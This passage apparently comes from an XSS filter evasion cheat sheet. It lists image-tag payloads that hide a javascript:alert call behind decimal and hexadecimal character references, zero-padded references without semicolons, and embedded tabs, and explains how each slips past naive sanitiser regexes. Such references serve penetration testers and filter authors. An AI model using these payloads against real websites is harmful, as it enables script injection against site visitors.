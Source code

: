 ## <span id="Decimal_HTML_character_references" class="mw-headline">Decimal HTML character references</span>

all of the XSS examples that use a javascript: directive inside of an <IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

<pre>&lt;IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;&gt;
</pre>

## <span id="Decimal_HTML_character_references_without_trailing_semicolons" class="mw-headline">Decimal HTML character references without trailing semicolons</span>

This is often effective in XSS that attempts to look for &#8220;&#XX;&#8221;, since most people don&#8217;t know about padding &#8211; up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =~ s/.\*\&#(\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I&#8217;ve seen this in the wild):

<pre>&lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;
</pre>

## <span id="Hexadecimal_HTML_character_references_without_trailing_semicolons" class="mw-headline">Hexadecimal HTML character references without trailing semicolons</span>

This is also a viable XSS attack against the above string $tmp_string =~ s/.\*\&#(\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol &#8211; which is not true with hex HTML characters).

<pre>&lt;IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29&gt;
</pre>

## <span id="Embedded_tab" class="mw-headline">Embedded tab</span>

Used to break up the cross site scripting attack:

<pre>&lt;IMG SRC="jav	ascript:alert('XSS');"&gt;
</pre>

## <span id="Embedded_Encoded_tab" class="mw-headline">Embedded Encoded tab</span>

Use this one to break up XSS :

<pre>&lt;IMG SRC="jav&#x09;ascript:alert('XSS');"&gt;
</pre>
